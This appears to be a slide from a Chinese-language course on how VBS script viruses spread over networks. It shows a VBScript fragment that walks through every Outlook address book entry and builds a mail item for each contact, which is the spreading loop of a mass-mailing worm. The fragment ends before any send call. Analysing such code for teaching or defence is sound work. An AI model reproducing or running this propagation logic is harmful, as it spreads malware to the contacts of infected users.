

# VBS脚本病毒通过网络传播的几种方式及代码分析（续）
For Each addr In addrList

  If addr.AddressEntries.Count <> 0 Then

     addrEntCount = addr.AddressEntries.Count        '获取每个地址表的Email记录数

       For addrEntIndex= 1 To addrEntCount                 '遍历地址表的Email地址

          Set item = outlookApp.CreateItem(0)               '获取一个邮件对象实例

          Set addrEnt = addr.AddressEntries(addrEntIndex)      '获取具体Email地址

           item.To = addrEnt.Address                            '填入收信人地址

           item.Subject = "病毒传播实验"                       '写入邮件标题

           item.Body = "这里是病毒邮件传播测试！"              '写入文件内容